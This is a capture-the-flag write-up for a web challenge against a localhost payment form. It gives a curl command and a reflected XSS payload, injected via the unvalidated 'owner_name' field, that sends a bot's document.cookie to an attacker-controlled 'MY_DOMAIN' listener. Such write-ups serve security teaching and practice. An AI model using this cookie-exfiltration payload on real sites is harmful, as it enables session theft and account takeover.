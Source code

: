# How to solve it?

This challenge is based on chromium bot running in the background. You have to get cookies from the "scammer" that opens their list of scammed credit cards at `/payments`. `owner_name` parameter is the only one that isn't validated. Reflected XSS may be trigerred via this parameter. Curl that solves this challenge:

```console
curl -X POST -H 'Content-Type: application/json' -d $'{ \"card_number\": \"VALID_CARD_NUMBER\", \"owner_name\": \"<script src=\'data:, document.location = \\\"https://MY_DOMAIN/?d=\\\" + document.cookie;\'></script>\", \"expire_date\": \"12 / 2023\", \"cvv\": \"123\"}' http://localhost/api/pay
```

Payload:
```
<script src='data:, document.location = "https://MY_DOMAIN/?d=" + document.cookie;'></script>
```

Set up listener on your publicly available domain and send this curl. 